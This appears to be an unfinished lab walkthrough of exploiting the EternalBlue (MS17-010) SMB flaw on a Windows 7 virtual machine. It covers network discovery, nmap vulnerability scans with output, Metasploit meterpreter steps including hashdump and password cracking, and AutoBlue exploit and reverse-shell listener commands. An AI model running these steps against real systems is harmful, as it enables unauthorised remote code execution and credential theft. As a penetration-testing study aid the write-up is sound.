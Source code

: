 # **EternalBlue Exploitation | MS17-010 | AL**

The SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." This vulnerability is different from those described in CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.

## **Identifying target**

**Target machine:**
windows cmd confirmation with ipconfig 192.168.64.131

**Confirming the target machine on local network**
sudo arp-scan -l

    root@kali:/home/kali# arp-scan -l
    Interface: eth0, type: EN10MB, MAC: 00:0c:29:e4:4b:56, IPv4: 192.168.64.129
    Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
    192.168.64.2    00:50:56:f7:bd:1d       VMware, Inc.
    192.168.64.1    00:50:56:c0:00:08       VMware, Inc.
    192.168.64.131  00:0c:29:9c:4b:83       VMware, Inc.
    192.168.64.254  00:50:56:e1:67:05       VMware, Inc.


## **Test target connecitvity:**
ping 192.168.64.131

    ping 192.168.64.131. 29 packets transmitted 29 received, 0% packet loss.

## **Target scanning using nmap:** 
nmap -sC -sV -T4 --top-ports 1000 192.168.64.131 
      
      kali@kali:~$ nmap -sC -sV -T4 --top-ports 1000 192.168.64.131
      Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-26 08:42 EDT
      Nmap scan report for 192.168.64.131
      Host is up (0.00028s latency).
      Not shown: 992 closed ports
      PORT      STATE SERVICE      VERSION
      135/tcp   open  msrpc        Microsoft Windows RPC
      139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
      49152/tcp open  msrpc        Microsoft Windows RPC
      49153/tcp open  msrpc        Microsoft Windows RPC
      49154/tcp open  msrpc        Microsoft Windows RPC
      49155/tcp open  msrpc        Microsoft Windows RPC
      49156/tcp open  msrpc        Microsoft Windows RPC
      Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows
      
      Host script results:
      |_clock-skew: mean: 16h19m58s, deviation: 2h18m33s, median: 14h59m58s
      |_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:9c:4b:83 (VMware)
      | smb-os-discovery: 
      |   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
      |   OS CPE: cpe:/o:microsoft:windows_7::sp1
      |   Computer name: WIN-845Q99OO4PP
      |   NetBIOS computer name: WIN-845Q99OO4PP\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2024-09-26T23:43:24-04:00
      | smb-security-mode: 
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode: 
      |   2.02: 
      |_    Message signing enabled but not required
      | smb2-time: 
      |   date: 2024-09-27T03:43:24
      |_  start_date: 2024-09-27T03:11:45
      
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 65.81 seconds

## **Vulnerability scanning using nmap:**
nmap --script vuln --top-ports 1000 192.168.64.131 
  
      Host script results:
      |_smb-vuln-ms10-054: false
      |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
      | smb-vuln-ms17-010: 
      |   VULNERABLE:
      |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
      |     State: VULNERABLE
      |     IDs:  CVE:CVE-2017-0143
      |     Risk factor: HIGH
      |       A critical remote code execution vulnerability exists in Microsoft SMBv1
      |        servers (ms17-010).
      |           
      |     Disclosure date: 2017-03-14
      |     References:
      |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
      |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
      |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
      
      Nmap done: 1 IP address (1 host up) scanned in 126.35 seconds


# **TBC here onwards.** 

Research all ports, along with the critical finding in scan number 2.

## **Exploits for Port 135/tcp (Microsoft Windows RPC)**
Port 135 is used by the RPC Endpoint Mapper. Historically, there have been vulnerabilities associated with RPC services, notably:

MS03-026 (CVE-2003-0352): A buffer overflow in the RPC DCOM interface allowing remote code execution.
MS03-039 (CVE-2003-0715): Similar to MS03-026 with additional fixes.

However, these vulnerabilities affect older Windows versions like Windows XP and Windows 2000. Windows 7 SP1 is not affected by these specific vulnerabilities, and they were patched long ago.

## **Exploits for Port 139/tcp (NetBIOS Session Service)**
Port 139 is used for NetBIOS Session Service, which facilitates file and printer sharing over NetBIOS.

Historical Vulnerabilities:
Information Disclosure: Null session attacks could allow an attacker to enumerate users, shares, and other information.
SMB Relay Attacks: Exploiting SMB to relay authentication and gain unauthorized access.
However, these are typically not direct remote code execution vulnerabilities and often require additional conditions or misconfigurations.

    look for auxiliary verison
    check if target ip is vulnerable

    use 3
    set payload to win7/tcp/meterpreter version
    rhost target ip
    run
    
    meterpreter shell access
    sysinfo
    hashdump
    
    crack ntml password
    conduct screenshot
    
    gain nt authority access

# **Manual Exploitation With Reverse TCP Shell [Leveraging Metasploit Reverse Shell Framework]**

## **EndGame GitHub**
    cd /opt/
    git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
    cd autoblue-ms17-010/
    
### **Check**
    run python eternal_checker.py <TARGET-IP>

### **Python3 requirements install**
    pip install -r requirements.txt

### **Configuration of Shell code and reverse listener**
    cd shellcode/
    ./shell_prep.sh
    LPORT for reverse connection: eth0
    LPORT for listener on x64: 9999
    LPORT for listener on x86: 2222
    
    cd..
    ./listener_prep.sh
    LPORT for reverse connection: eth0
    LPORT for listener on x64: 9999
    LPORT for listener on x86: 2222

    python eternalblue_exploit7.py 192.168.64.131

## **In the event we cannot use the Metasploit Shell Framework**

### **Setting Netcat alternative**
    netcat -nlvp 9999
    
### Blue Walkthrough - <https://medium.com/@coot33/tcm-blue-writeup-2474fc32cca3>
